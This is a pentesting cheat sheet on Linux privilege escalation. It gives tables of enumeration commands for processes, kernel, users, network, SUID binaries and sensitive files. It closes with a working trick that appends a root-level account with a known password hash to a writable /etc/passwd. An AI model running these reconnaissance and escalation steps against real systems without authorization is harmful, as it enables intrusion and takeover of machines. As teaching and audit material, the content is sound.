 # Enumerating Attack Vectors

## **Helpful Tools**

1. [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
2. [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
3. [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
4. [https://pentestmonkey.net/tools/audit/unix-privesc-check](https://pentestmonkey.net/tools/audit/unix-privesc-check)

***

## **Processes and Jobs**

| Command                       | Description                                                                  |
| ----------------------------- | ---------------------------------------------------------------------------- |
|  `ps aux \| grep root`        | See processes running as root                                                |
| `./pspy64 -pf -i 1000`        | View running processes with `pspy`                                           |
| `ls -la /etc/cron.daily`      | Check for daily Cron jobs                                                    |
| `grep "CRON" /var/log/syslog` | Enumerate cron jobs                                                          |
| `lpstat`                      | Look for active or queued print jobs to gain access to sensitive information |

## **Kernel and OS**

| Command                | Description                                                  |
| ---------------------- | ------------------------------------------------------------ |
| `hostname`             | Check the hostname (useful to ensure the target is in scope) |
| `uname -a`             | Check the Kernel version                                     |
| `cat /proc/version`    | Check the Kernel version                                     |
| `cat /etc/lsb-release` | Check the OS version                                         |
| `cat /etc/os-release`  | Check the OS version                                         |
| `cat /etc/issue`       | May contain information about the system version and release |
| `lscpu`                | Gather additional information about the host                 |
| `sudo -V`              | Check sudo version                                           |

## **User-Related**

| Command      | Description                                     |
| ------------ | ----------------------------------------------- |
| `echo $PATH` | Check the current user's PATH variable contents |
| `ps au`      | See logged in users                             |
| `history`    | Check the current user's Bash history           |
| `whoami`     | Check what user we are running as               |
| `id`         | Check what groups we belong to                  |
| `sudo -l`    | Can the user run anything as another user?      |

## **Network Related**

| Command                | Description                                                                                                    |
| ---------------------- | -------------------------------------------------------------------------------------------------------------- |
| `ip -a`                | Check network interfaces                                                                                       |
| `ipconfig`             | Check network interfaces                                                                                       |
| `hostname -I`          | Display all IP addresses related to the host                                                                   |
| `cat /etc/hosts`       | Check for potential interesting hosts                                                                          |
| `route`                | Check out the routing table to see what other networks are available via which interface                       |
| `netstat -rn`          | Check out the routing table to see what other networks are available via which interface                       |
| `arp -a`               | Check the arp table to see what other hosts the target has been communicating with                             |
| `cat /etc/resolv.conf` | Check if the host is configured to use internal DNS → Starting point to query the Active Directory environment |
| `ss -tulpn`            | Check listening services on both TCP and UDP ports                                                             |
| `netstat -tulpn`       | Check listening services on both TCP and UDP ports                                                             |
| `ss -anp`              | Display active connections and listening ports                                                                 |

## **Finding Interesting Files and Directories**

<table><thead><tr><th width="466">Command</th><th>Description</th></tr></thead><tbody><tr><td><code>find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null</code></td><td>Find all accessible history files</td></tr><tr><td><code>find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null</code></td><td>Find world-writeable directories</td></tr><tr><td><code>find / -type d -name ".*" -ls 2>/dev/null</code></td><td>Find all hidden directories</td></tr><tr><td><code>find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null</code></td><td>Find all hidden files</td></tr><tr><td><code>find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null</code></td><td>Find world-writeable files</td></tr><tr><td><code>find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null</code></td><td>Find binaries with SUID bit set</td></tr><tr><td><code>find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null</code></td><td>Find binaries with SGID bit set</td></tr><tr><td><code>find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;</code></td><td>Enumerate binary files capabilities</td></tr><tr><td><code>find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null</code></td><td>Search config files</td></tr><tr><td><code>find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null</code></td><td>Search config files</td></tr><tr><td><code>find / -type f -name "*.sh" 2>/dev/null \| grep -v "src\|snap\|share"</code></td><td>Find <code>.sh</code> scripts</td></tr><tr><td><code>grep -r "word" /starting-path</code></td><td>Resursively inspect file contents to find instances of "word":</td></tr><tr><td><code>ls -l /tmp /var/tmp /dev/shm</code></td><td>Find temporary files</td></tr></tbody></table>

## Enumerating SUID binaries

**SUID** is a special file permission for executable files which enables other users to run the file with effective permissions of the file owner. Instead of the normal `x` which represents execute permissions, you will see an `s` (to indicate **SUID**) special permission for the user.

Obviously, for a quick win, you want to find SUID binaries having the `root` user as the file's owner.

HackTricks has a [page](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/euid-ruid-suid) where more info about this topic is explained.

You can `find` SUID binaries in many ways, the following are some example commands:

* `find / -perm -4000 2>/dev/null`
* `find / -perm /4000 2>/dev/null`
* `find / -perm /u+s 2>/dev/null`
* `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

## Other Tricks - Miscellaneous

{% hint style="success" %}
This section contains some specific things which could help you find unusual vectors to escalate your privileges.
{% endhint %}

***

### Writeable passwd file

Always check whether you have write permissions into the `/etc/passwd` file.

If that's the case, you can effectively set an arbitrary password for any account.

To check, use `ls -la /etc/passwd`

Supposing you have write permissions, you can `generate a password hash` and use it to log as `root` as follows:

1. Generate the password hash:\
   `openssl passwd w00t output: Fdzt.eqJQ4s0g`
2. Append the password hash inside the passwd file:\
   `echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd`
3. Now you can login as root using `su root2` and inserting `w00t` as the user's password

